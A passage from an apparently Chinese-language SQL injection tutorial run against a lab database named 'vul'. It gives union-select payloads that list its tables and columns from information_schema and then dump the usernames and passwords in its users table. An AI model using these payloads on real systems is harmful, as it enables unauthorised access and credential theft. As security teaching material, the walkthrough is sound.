 ## 1.6 获得数据库下面的表的名称

在1.5的基础上，我们用如下语句来获得数据库vul的表：

```sql
-1 union select 1,group_concat(table_name) ,3,4 from information_schema.tables where table_schema = 'vul';
```

![image-20220603135854507](sql注入剖析.assets/image-20220603135854507.png)

## 1.7 获取表下的字段的名称

在1.6的基础上，我们用如下语句来获得数据库vul的表users下的字段信息：

```sql
-1 union select 1,group_concat(column_name) ,3,4 from information_schema.columns where table_schema = 'vul' and table_name = 'users';
```

![image-20220603140303705](sql注入剖析.assets/image-20220603140303705.png)



## 1.8 获取字段信息

在1.7的基础上，我们用如下语句来获得数据库vul的表users下的字段信息，两个字段信息一起查询中间用'~'隔开：

```sql
-1 union select 1,group_concat(username,'~',password),3,4 from vul.users;
```
